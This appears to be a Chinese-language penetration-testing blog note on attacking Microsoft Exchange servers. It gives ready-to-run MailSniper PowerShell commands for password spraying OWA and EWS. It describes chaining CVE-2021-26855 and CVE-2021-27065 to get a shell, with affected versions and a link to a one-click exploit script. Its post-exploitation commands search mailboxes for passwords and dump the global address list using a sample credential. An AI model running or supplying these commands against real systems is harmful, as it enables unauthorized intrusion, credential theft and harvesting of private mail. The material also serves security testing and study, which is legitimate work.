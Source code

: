 ![image-20231206164253327](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/ldapp/image-20231206164253327.png)

[RULER](https://github.com/sensepost/ruler/releases/tag/2.4.1)

**密码喷洒**

[MailSniper](https://github.com/dafthack/MailSniper)

```powershell
对OWA进行爆破
Import-Module .\MailSniper.ps1Invoke-PasswordSprayOWA -ExchHostname OWAHOST -UserList .\user.txt -Password password -Threads 1 -Domain domainname -OutFile out.txt -Verbose 
对EWS进行爆破
Invoke-PasswordSprayEWS -ExchHostname EWSHOST -UserList .\user.txt -Password password -Threads 1 -Domain domainname -OutFile out.txt -Verbose
```

**CVE-2021-26855+CVE-2021-27065**

CVE-2021-26855是一个SSRF漏洞，可以在无用户的情况下绕过Exchange的身份验证

CVE-2021-27065是一个任意文件写入漏洞，这个漏洞要求一个邮件服务器的账户，而ssrf正好提供了这一点

两个漏洞结合，能够达到getshell的目的

+ 漏洞影响版本

  Exchange Server 2019 < 15.02.0792.010

  Exchange Server 2019 < 15.02.0721.013

  Exchange Server 2016 < 15.01.2106.013

  Exchange Server 2013 < 15.00.1497.012

可以适用一键式的脚本直接getshell

![image-20231206220234713](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/ldapp/image-20231206220234713.png)

[tools](https://github.com/ZephrFish/Exch-CVE-2021-26855)

## Exchange后渗透

获取用户一个用户之后，可以对邮件列表进行检索获取敏感信息，方便下一步渗透

MailSniper

```shell
#检索hacker@loser.com收件箱文件夹里内容含有 pass,在启用remote参数后会弹出一个输入框输入邮箱票据
Invoke-SelfSearch -Mailbox hacker@loser.com -Terms *pass* -Folder 收件箱 -ExchangeVersion Exchange2016 -remote -OutputCsv out.csv
```

![image-20231211105904411](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/ldapp/image-20231211105904411.png)

**获取全局地址列表**

我们获得一个合法用户的凭据以后，就可以通过获取全局地址表来获取所有邮箱地址

```
Get-GlobalAddressList -ExchHostname 192.168.30.88 -UserName hacker -ExchangeVersion Exchange2016 -Password UU2FU3O@ADMIN
```
